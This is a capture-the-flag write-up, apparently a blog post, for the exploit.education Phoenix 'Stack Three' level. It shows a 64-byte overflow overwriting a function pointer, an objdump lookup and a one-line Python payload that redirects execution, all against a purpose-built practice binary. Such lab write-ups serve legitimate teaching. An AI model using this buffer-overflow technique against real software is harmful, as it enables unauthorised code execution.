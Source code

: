 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x3"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```

{% include JB/setup %}

# Stack 3

Write-up for: [Stack Three](https://exploit.education/phoenix/stack-three/)

<!--more-->

This is again very similar, but this time we are overwriting a function pointer via
stdin.

```
user@phoenix-amd64:/opt/phoenix/i486$ ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer @ 0x41414141
Segmentation fault
```

The buffer is again 64 bytes large. Thus we can precisely target the function pointer value.
Where do we want to jump instead? Looking at the symbols we can see a function called `complete_level`:

```
objdump -t stack-three
08048535 g     F .text  00000020 complete_level
```

Since we have no memory protection, let's just jump there

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "\x08\x04\x85\x35"[::-1]' | ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x8048535
Congratulations, you've finished phoenix/stack-three :-) Well done!ongratulations, you've finished phoenix/stack-three :-) Well done!

```

Don't forget the little endianness ;)
